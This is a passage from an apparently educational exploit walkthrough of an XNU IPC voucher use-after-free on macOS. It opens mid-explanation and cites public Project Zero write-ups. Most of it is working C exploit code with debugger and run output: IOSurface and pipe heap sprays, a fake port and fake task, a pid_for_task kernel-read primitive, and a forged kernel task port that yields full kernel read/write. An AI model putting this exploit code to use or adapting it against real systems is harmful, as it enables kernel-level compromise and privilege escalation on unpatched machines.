The reason the iv_port of address 0xffffff8026187d70 is written is in the `convert_voucher_to_port` function.

At line 503, it first checks if the voucher has a valid reference count.
Then at line 507, it checks if the voucher's port is valid.
**If not, a new port is allocated.**

This is great, because when we allocate a fake voucher to replace the freed voucher,
if we keep the `iv_port` pointer as `NULL`, a newly allocated voucher port (`IKOT_VOUCHER`) is returned to user space for that voucher. 
Then you can reference it via `ith_voucher->iv_port`, allowing further manipulation of the voucher.

```cpp
    File: ./osfmk/ipc/ipc_voucher.c
    492: /*
    493:  * Convert a voucher to a port.
    494:  */
    495: ipc_port_t
    496: convert_voucher_to_port(ipc_voucher_t voucher)
    497: {
    498: 	ipc_port_t	port, send;
    499: 
    500: 	if (IV_NULL == voucher)
    501: 		return (IP_NULL);
    502: 
    503: 	assert(os_ref_get_count(&voucher->iv_refs) > 0);
    504: 
    505: 	/* create a port if needed */
    506: 	port = voucher->iv_port;
    507: 	if (!IP_VALID(port)) {
    508: 		port = ipc_port_alloc_kernel(); //allocated as new!!!!!!!!!!!!!
    509: 		assert(IP_VALID(port));
    510: 		ipc_kobject_set_atomically(port, (ipc_kobject_t) voucher, IKOT_VOUCHER);
    511: 
    512: 		/* If we lose the race, deallocate and pick up the other guy's port */
    513: 		if (!OSCompareAndSwapPtr(IP_NULL, port, &voucher->iv_port)) {
    514: 			ipc_port_dealloc_kernel(port);
    515: 			port = voucher->iv_port;
    516: 			assert(ip_kotype(port) == IKOT_VOUCHER);
    517: 			assert(port->ip_kobject == (ipc_kobject_t)voucher);
    518: 		}
    519: 	}
    520: 	
```

At this point, things look good.
If our port is actually valid, from here on we have a better success rate and the dangerous part is over.

## 2. Preparing to build kread Primitive

### fakeport + faketask Pipe Spray

First, use the `pipe` function to allocate 0x500 pairs of pipe handles (`fds`) for inter-process communication.
This is for writing the fake port.

```c
    // pipe preparation
    void *pipebuf = malloc(pagesize);
    bzero(pipebuf, pagesize);

    int *pipefds = NULL;
    int total_pipes = 0x500;
    size_t total_pipes_size = total_pipes * 2 * sizeof(int);
    pipefds = malloc(total_pipes_size);
    bzero(pipefds, total_pipes_size);
    for (size_t i = 0; i < total_pipes; i++) 
    {
        /* 
            we arrange our pipes in pairs  
            where pipe N is a read pipe, and 
            pipe N+1 is the corresponding write pipe
        */
        pipefds[i * 2] = -1;
        pipefds[i * 2 + 1] = -1;
        
        int error = pipe(&pipefds[i * 2]);
        if (error != 0 ||
            pipefds[i * 2] < 0 ||
            pipefds[i *  + 1] < 0)
        {
            close(pipefds[i * 2]);
            close(pipefds[i * 2 + 1]);

            total_pipes = i;
            break;   
        }

        set_nonblock(pipefds[i * 2 + 1]);
    }
    INFO("total pipes created: %d\n",total_pipes);
    //
```

Then, create the fake voucher to be sprayed via IOSurface. iv_refs is 200, and the iv_port field is the **predicted** kernel address of the port written in the pipe,
which may vary by environment. In the original exploit code, it was 32 (=0x20),
but in my environment, it was farther away, so I had to multiply by 0x140.

```c
    mach_port_t the_one = real_port_to_fake_voucher;
    uint64_t original_port_addr = target_voucher->iv_port;

    fake_ipc_voucher_t new_voucher = (fake_ipc_voucher_t)
    {
        .iv_refs = 200,
        .iv_port = (original_port_addr & ~(pagesize - 1)) + (pagesize * 0x140),
    };
    INFO("new port addr: 0x%llx\n", new_voucher.iv_port);
```


Next, allocate a contiguous region so the fake task structure can be placed right after the fake port in the kernel.

Copy the fakeport and faketask data into pipebuf and write it to the pipe.

```c
    /* set up our fakeport for use later */
    kport_t *fakeport = NULL;
    fakeport = malloc(sizeof(kport_t));
    bzero((void *)fakeport, sizeof(kport_t));

    fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;
    fakeport->ip_references = 100;
    fakeport->ip_lock.type = 0x11;
    fakeport->ip_messages.port.receiver_name = 1;
    fakeport->ip_messages.port.msgcount = 0;
    fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
    fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
    fakeport->ip_srights = 99;
#define PIPEBUF_TASK_OFFSET 0x100
    fakeport->ip_kobject = new_voucher.iv_port + PIPEBUF_TASK_OFFSET; /* place the task struct just after the kport */

    memcpy(pipebuf, (void *)fakeport, sizeof(kport_t));
    for (int i = 0; i < total_pipes; i++)
    {
        int wfd = pipefds[2 * i + 1];
        size_t written = write(wfd, pipebuf, pagesize - 1);
        
        if (written != pagesize - 1)
        {
            /* failed to write, all our pipebuffers are full & we've run out of mem */ 

            total_pipes = i;
            INFO("total_pipes is now: %d", total_pipes);
            break;
        }
    }
```

### fake new_voucher Spray

Again, use the OSUnserializeBinary XML Spraying principle to reallocate new_voucher data.
Free the fake voucher pages at the overlapped index (spray_index) using IOSurface_remove_value,
and reallocate with a **fake new_voucher with iv_refs=200 and iv_port=fake port pipe allocation predicted address**.

```c
    /* we used this smaller dict later in order to reallocate our target OSString */
    int small_dictsz = (9 * sizeof(uint32_t)) + pagesize;
    uint32_t *dict_small = malloc(small_dictsz);
    bzero((void *)dict_small, small_dictsz);

    dict_small[0] = IOSurface_id;
    dict_small[1] = 0x0;
    dict_small[2] = kOSSerializeMagic; 
    dict_small[3] = kOSSerializeEndCollection | kOSSerializeArray | 1;
    dict_small[4] = kOSSerializeEndCollection | kOSSerializeDictionary | 1;
    dict_small[5] = kOSSerializeSymbol | 5;
    dict_small[6] = transpose(spray_index); /* Key */
    dict_small[7] = 0x0;
    dict_small[8] = kOSSerializeEndCollection | kOSSerializeString | (pagesize - 1);

    uint8_t *osstring_buf = (uint8_t *)dict_small + (9 * sizeof(uint32_t));
    /* overwrite all the ports in the osstring */
    for (uintptr_t ptr = (uintptr_t)osstring_buf, end = ptr + pagesize;
         ptr + sizeof(fake_ipc_voucher_t) <= end;
         ptr += sizeof(fake_ipc_voucher_t))
    {
        bcopy((const void *)&new_voucher, (void *)ptr, sizeof(fake_ipc_voucher_t));  
    }

    INFO("realloc'ing...\n");

    sched_yield();

    struct IOSurfaceValueArgs_string request = {
        .surface_id = IOSurface_id,
        ._out1 = 0x0,
        .string_data = transpose(spray_index),
        .null = 0
    }; 
    ret = IOSurface_remove_value((struct IOSurfaceValueArgs *)&request, sizeof(request));
    if(ret == false) exit(1);

    ret = IOSurface_set_value(dict_small, small_dictsz);
    if(ret == false) exit(1);

    for (int i = 0; i < 0x10; i++)
    {
        if (i == spray_index)  
        {
            continue;
        }

        dict_small[6] = transpose(i); 

        ret = IOSurface_set_value(dict_small, small_dictsz);
        if(ret == false) exit(1);
    }
```

Call `thread_get_mach_voucher` again to obtain the port in user space.
If the port is different from before, it means the `iv_port` has been reallocated to the fake new_voucher with the fakeport pipe address,
and now the fakeport is ready to be manipulated via pipe write.

```c
    mach_port_t old_real_port = real_port_to_fake_voucher;
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
    if (ret != KERN_SUCCESS)
    {
        INFO("failed to call thread_get_mach_voucher: %x %s", ret, mach_error_string(ret)); exit(1);
    }

    INFO("old port: %x\n", old_real_port);
    INFO("new port: %x\n", real_port_to_fake_voucher);

    if (old_real_port == real_port_to_fake_voucher)
    {
        INFO("failed to get new port :(\n"); exit(1);
    }

    the_one = real_port_to_fake_voucher;

    if (!MACH_PORT_VALID(the_one))
    {
        INFO("the_one is not valid :-( failed to realloc\n"); exit(1);
    }

    INFO("WE REALLY TRAPPIN OUT HERE\n");
```

```c
[*] port: 0x100707
[*] WE REALLY POSTED UP ON THIS BLOCK -- part 1 of #alwaysstayposted
[*] getting responses...
[*] found voucher!! s: 502, j: 45
[*] port: 0xffffff8031fddd88
[*] refs: 101
p1_ipc_voucher (3): 0xffffff802ddcce10
[*] total pipes created: 1280
[*] new port addr: 0xffffff803211d000
[*] realloc'ing...
[*] old port: 100707
[*] new port: e4b07
[*] WE REALLY TRAPPIN OUT HERE

iv_port points to the fakeport pipe address, fake new_voucher reallocation complete.
(lldb) p *(ipc_voucher_t)0xffffff802ddcce10
(ipc_voucher) $3 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 200)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  iv_port = **0xffffff803211d000 //**fakeport가 적힌 파이프 주소
  iv_hash_link = {
    next = nullptr
    prev = nullptr
  }
}
```

When calling `thread_get_mach_voucher`,
the `ipc_object_copyin` (osfmk/kern/thread.c:3063)
→ `ipc_right_copyin` (osfmk/ipc/ipc_object.c:517) function executes
`port->ip_srights++;` (osfmk/ipc/ipc_right.c:2008).

Compare the `ip_srights` value to find the index of the fakeport (i.e., the pipe containing our new fake_voucher's `iv_port`).

```c
/* find the index of the pipe buffer our fakeport overlapped with */
    int fakeport_pipe_index = 0;
    for (int i = 0; i < total_pipes; i++)
    {
        int rfd = pipefds[2 * i];
        size_t readsz = read(rfd, pipebuf, pagesize - 1);
        
        if (readsz != pagesize - 1)
        {
            INFO("failed to read idx %d\n", i);
            continue;
        }

        kport_t *iter_port = (kport_t *)pipebuf;
    
        if (iter_port->ip_srights != fakeport->ip_srights)
        {
            INFO("found our fakeport: %d\n", i);
            INFO("ip_srights: %d\n", iter_port->ip_srights);
            fakeport_pipe_index = i;

            int wfd = pipefds[2 * i + 1];
            write(wfd, pipebuf, pagesize);
        
            break;
        }
    }

    if (fakeport_pipe_index == 0)
    {
        INFO("failed to find fakeport pipe idx\n"); exit(1);
    }

    INFO("fakeport pipe index: %d\n", fakeport_pipe_index);
```

```c
[*] found our fakeport: 255
[*] ip_srights: 100
[*] fakeport pipe index: 255
```

### Control the fakeport written to the pipe and use pid_for_task for kernel read

The Mach API `pid_for_task` returns the process pid for the provided task port.

Here, `get_bsdtask_info` is called on the provided task port,
and then `proc_pid` returns the pid, which is copied to user space.
The important point is that there is no validity check for the provided task port or the process returned by `get_bsdtask_info`.

```c
pid_for_task(
    struct pid_for_task_args *args)
{
    mach_port_name_t	t = args->t;
    user_addr_t		pid_addr  = args->pid;
        
        [...]

    t1 = port_name_to_task_inspect(t);

        [...]

        p = get_bsdtask_info(t1); /* Get the bsd_info entry from the task */
        if (p) {
                pid  = proc_pid(p); /* Returns p->p_pid */
                err = KERN_SUCCESS; 
        } [...]

    (void) copyout((char *) &pid, pid_addr, sizeof(int));
    return(err);
}
```

Let's look at `get_bsdtask_info` and `proc_pid`.

Essentially, this call allows us to get the `task->bsd_info->p_pid` value.
Since we can control the `task` structure (which is in the `ip_kobject` field of our `fakeport`),
we can fully control the pointer that `bsd_info` points to.
Thus, by manipulating the `bsd_info` pointer, we can read 32 bits from the kernel.
To read 64 bits, use two adjacent 32-bit reads and combine the values.

```c
void  *get_bsdtask_info(task_t t)
{
    /* mov     rax, [t+380h] ... */
    return(t->bsd_info);
}

int
proc_pid(proc_t p)
{
    if (p != NULL)
        /* mov     eax, [p+60h] */
        return (p->p_pid);
    return -1;
}
```

When spraying the fake port at that moment,
we placed the fake task at the `ip_kobject` field of the fake port (specifically, at `fake port addr + 0x100`),
and set the `ip_bits` field to `IO_BITS_ACTIVE | IKOT_TASK`.

The reason for setting the `ip_bits` field to this value is to indicate that our `ipc_port` is a task port, allowing us to use calls like `pid_for_task`.

```c
    /* set up our fakeport for use later */
    kport_t *fakeport = NULL;
    fakeport = malloc(sizeof(kport_t));
    bzero((void *)fakeport, sizeof(kport_t));

    **fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;**
    fakeport->ip_references = 100;
    fakeport->ip_lock.type = 0x11;
    fakeport->ip_messages.port.receiver_name = 1;
    fakeport->ip_messages.port.msgcount = 0;
    fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
    fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
    fakeport->ip_srights = 99;
#define PIPEBUF_TASK_OFFSET 0x100
    **fakeport->ip_kobject = new_voucher.iv_port + PIPEBUF_TASK_OFFSET; /* place the task struct just after the kport */**

    memcpy(pipebuf, (void *)fakeport, sizeof(kport_t));
```

Now, finally, set up the fake task contents for kernel read.
Set `ref_count` to 0xff,
and control the `bsd_info` address to point to a specific kernel address for a 4-byte kernel read macro.

The current target address to be read, `original_port_addr`, is the fake port's `ipc_port` structure, specifically `ip_object->io_bit`.
Reading it gives `IO_BITS_ACTIVE | IKOT_VOUCHER`, which is `0x80000025`.

```c
    INFO("starting kreads...\n");

    /* set up the fake task buf for use with the pid_for_task read primitive */
    int rfd = pipefds[2 * fakeport_pipe_index];
    read(rfd, pipebuf, pagesize);

    ktask_t *fake_task = (ktask_t *)((uint64_t)pipebuf + PIPEBUF_TASK_OFFSET);
    fake_task->ref_count = 0xff;
    
    int wfd = pipefds[2 * fakeport_pipe_index + 1];
    write(wfd, pipebuf, pagesize);

    #define off_task_bsd_info 0x380
    uint64_t *read_addr_ptr = (uint64_t *)((uint64_t)fake_task + off_task_bsd_info);

    #define off_proc_p_pid 0x60
    
    #define rk32(addr, value)\
    do {\
    int rfd = pipefds[2 * fakeport_pipe_index];\
    read(rfd, pipebuf, pagesize);\
    *read_addr_ptr = addr - off_proc_p_pid;\
    int wfd = pipefds[2 * fakeport_pipe_index + 1];\
    write(wfd, pipebuf, pagesize);\
    pid_for_task(the_one, (int *)&value);\
    } while (0)

        uint32_t read64_tmp;

    #define rk64(addr, value)\
    do {\
    rk32(addr + 0x4, read64_tmp);\
    rk32(addr, value);\
    value = value | ((uint64_t)read64_tmp << 32);\
    } while (0)

    INFO("testing the first read...\n");

    uint32_t first_read_val = 0x0;
    rk32(original_port_addr, first_read_val);
    INFO("first read val = 0x%x\n", first_read_val);
```

```c
[*] starting kreads...
[*] testing the first read...
[*] first read val = 0x80000025
```

### Spray task ports

The pipe allocation address is set to 0x500 pairs, so the kernel allocation size is 0x1000.
To make the pipe allocation address adjacent, fill the kernel allocation address with task ports of size 0x1000.
Spray about 0x1000 times.

```c
//spray task ports
    mach_port_t p[0x1000];
    for(int i = 0; i < 0x1000; i++) {
        p[i] = fill_kalloc_with_port_pointer(mach_task_self(), 0x1000/sizeof(uint64_t), MACH_MSG_TYPE_COPY_SEND);
    }

```

The fake port pipe allocation address is 0xffffff802911d000,

```c
[*] refs: 101
[*] total pipes created: 1280
[*] new port addr: 0xffffff802911d000
```

From fake port pipe allocation address + 0x50000 ~ +0x160000,
all are filled with task port kernel addresses.

```c
(lldb) x/4gx 0xffffff802911d000+0x400000
0xffffff802951d000: 0x0000006480000002 0x0000000000000000
0xffffff802951d010: 0x0000000000000011 0x0000000000000066
(lldb) x/4gx 0xffffff802911d000+0x500000
0xffffff802961d000: 0xffffff8021ce52a0 0xffffff8021ce52a0
0xffffff802961d010: 0xffffff8021ce52a0 0xffffff8021ce52a0
...
(lldb) x/4gx 0xffffff802911d000+0x1500000
0xffffff802a61d000: 0xffffff8021ce52a0 0xffffff8021ce52a0
0xffffff802a61d010: 0xffffff8021ce52a0 0xffffff8021ce52a0
(lldb) x/4gx 0xffffff802911d000+0x1600000
0xffffff802a71d000: 0xffffff8021ce52a0 0xffffff8021ce52a0
0xffffff802a71d010: 0xffffff8021ce52a0 0xffffff8021ce52a0
```

So, just read the values in the range **+ 0x50000 ~ +0x160000** from the fake port pipe allocation address,
and we can obtain our process's task port.

Obtain the task port at about the middle, fake port + 0xa0000.

```c
//leak our task's ipc_port
    uint64_t self_port_addr = 0;
    rk64(new_voucher.iv_port + 0xa00000, self_port_addr);
    INFO("our taskport = 0x%llx\n", self_port_addr);
```

### Create fake kernel port/fake kernel task for tfp0

The obtained task port is an ipc_port structure,
so reading the ipc_kobject (=kdata.kobject) field gives the task structure address.

Similarly, `proc` is a doubly linked list,
so starting from the current process, you can traverse forward to `pid=0`.
Access the structure fields to get the `vm_map` from the kernel task.

```c
// obtain our task addr; 
    uint64_t struct_task = 0;
    rk64(self_port_addr + 0x68, struct_task);   //0x68 = p/x offsetof(struct ipc_port, kdata.kobject)
    INFO("our task = 0x%llx\n", struct_task);

    uint64_t kernel_vm_map = 0;
    
    while (struct_task != 0) {
        uint64_t bsd_info;
        rk64(struct_task + 0x380, bsd_info);    // 0x380 = p/x offsetof(struct task, bsd_info)
        if (!bsd_info) {
            printf("[-] kernel read failed!\n");
            exit(1);
        }
        
        uint32_t pid;
        rk64(bsd_info + 0x60, pid); //0x60 = p/x offsetof(struct proc, p_pid)
        
        if (pid == 0) {
            uint64_t vm_map;
            rk64(struct_task + 0x20, vm_map);   //0x20 = p/x offsetof(struct task, map)
            if (!vm_map) {
                printf("[-] kernel read failed!\n");
                exit(1);
            }
            
            kernel_vm_map = vm_map;
            break;
        }
        
        rk64(struct_task + 0x30, struct_task); // 0x30 = p/x offsetof(struct task, tasks.prev)
    }
    INFO("kernel_vm_map = 0x%llx\n", kernel_vm_map);
```

Also, reading the `ip_receiver` field from the obtained task port **gives the `ipc_space_kernel` address.**


```c
    uint64_t ipc_space_kernel = 0;
    rk64(self_port_addr + 0x60, ipc_space_kernel);   //0x60 = p/x offsetof(struct ipc_port, data.receiver)

    INFO("ipc_space_kernel = 0x%llx\n", ipc_space_kernel);
```

```c
(lldb) x/4gx 0xffffff802911d000+0x1600000
0xffffff802a71d000: 0xffffff8021ce52a0 0xffffff8021ce52a0
0xffffff802a71d010: 0xffffff8021ce52a0 0xffffff8021ce52a0

(lldb) p/x *(ipc_port_t)0xffffff8021ce52a0
(ipc_port) $52 = {
...
  data = {
    receiver = 0xffffff801fbb3fc0
...

(lldb) p/x ipc_space_kernel
(ipc_space_t) $55 = 0xffffff801fbb3fc0
```

Now everything is ready.

To create a fake task struct, use hardcoded data and insert the kernel's `vm_map` pointer. Also, update the fake port's `ip_receiver` to the ipc_space_kernel address to turn it into a kernel task port.

Now you have a legitimate kernel task port!

```c
    //prepare new port/task
    rfd = pipefds[2 * fakeport_pipe_index];
    read(rfd, pipebuf, pagesize);

    fake_task->ip_lock.data = 0x0;
    fake_task->ip_lock.type = 0x22;
    fake_task->active = 1;
    fake_task->map = kernel_vm_map;
    *(uint32_t *)((uint64_t)fake_task + 0xd8) = 1; // 0xd8 = p/x offsetof(struct task, itk_self)

    ((kport_t *)pipebuf)->ip_receiver = ipc_space_kernel;

    /* update the pipebuffer with new port/task */
    wfd = pipefds[2 * fakeport_pipe_index + 1];
    write(wfd, pipebuf, pagesize);

    //kernel r/w achieved!
    INFO("kernel r/w achieved!\n");
    tfp0 = the_one;
```

Now you have a fully working kernel task port,
and you can use Mach API calls to read, write, allocate, or free memory.

```c
    uint64_t addr = kalloc(8);
    
    if (!addr) {
        printf("[-] seems like tfp0 port didn't work?\n");
        exit(1);
    }
    
    printf("[*] allocated: 0x%llx\n", addr);
    kwrite64(addr, 0x4141414141414141);
    uint64_t readb = kread64(addr);
    kfree(addr, 8);

    printf("[*] read back: 0x%llx\n", readb);
```

## Exploit result

```c
seos-iMac-Pro% ./exp 
[*] page size: 0x1000, kr=(os/kern) successful
[*] IOSurface_init success, IOSurface_id=0x4
[*] got gc at 0 -- breaking, t1-t0: 21310253
[*] port: 0x114707
[*] WE REALLY POSTED UP ON THIS BLOCK -- part 1 of #alwaysstayposted
[*] getting responses...
[*] found voucher!! s: 598, j: 36
[*] port: 0xffffff802e50e6b8
[*] refs: 101
[*] total pipes created: 1280
[*] new port addr: 0xffffff802e64e000
[*] realloc'ing...
[*] old port: 114707
[*] new port: dae07
[*] WE REALLY TRAPPIN OUT HERE
[*] found our fakeport: 91
[*] ip_srights: 100
[*] fakeport pipe index: 91
[*] starting kreads...
[*] testing the first read...
[*] first read val = 0x80000025
[*] our taskport = 0xffffff802a7da150
[*] our task = 0xffffff802a8043c0
[*] kernel_vm_map = 0xffffff801c76e5f0
[*] ipc_space_kernel = 0xffffff801fbb3fc0
[*] kernel r/w achieved!
[*] allocated: 0xffffff807459d000
[*] read back: 0x4141414141414141
[*] done, press any key for cleanup
```

## References and Sources

Exploit Code

[https://github.com/PsychoTea/machswap2](https://github.com/PsychoTea/machswap2)

[https://project-zero.issues.chromium.org/issues/42450804](https://project-zero.issues.chromium.org/issues/42450804) Attachment

Writeup

[https://project-zero.issues.chromium.org/issues/42450804](https://project-zero.issues.chromium.org/issues/42450804)

[https://github.com/bazad/presentations/blob/master/TyphoonCon-2019-voucher_swap.pdf](https://github.com/bazad/presentations/blob/master/TyphoonCon-2019-voucher_swap.pdf)

[https://web.archive.org/web/20220720022145/https://blogs.360.cn/post/IPC Voucher UaF Remote Jailbreak Stage 2.html](https://web.archive.org/web/20220720022145/https://blogs.360.cn/post/IPC%20Voucher%20UaF%20Remote%20Jailbreak%20Stage%202.html)

[https://googleprojectzero.blogspot.com/2019/08/in-wild-ios-exploit-chain-5.html](https://googleprojectzero.blogspot.com/2019/08/in-wild-ios-exploit-chain-5.html)

[https://googleprojectzero.blogspot.com/2019/01/voucherswap-exploiting-mig-reference.html](https://googleprojectzero.blogspot.com/2019/01/voucherswap-exploiting-mig-reference.html)

[https://highaltitudehacks.com/2020/06/01/from-zero-to-tfp0-part-1-prologue.html](https://highaltitudehacks.com/2020/06/01/from-zero-to-tfp0-part-1-prologue.html)

[https://highaltitudehacks.com/2020/06/01/from-zero-to-tfp0-part-2-a-walkthrough-of-the-voucher-swap-exploit.html](https://highaltitudehacks.com/2020/06/01/from-zero-to-tfp0-part-2-a-walkthrough-of-the-voucher-swap-exploit.html)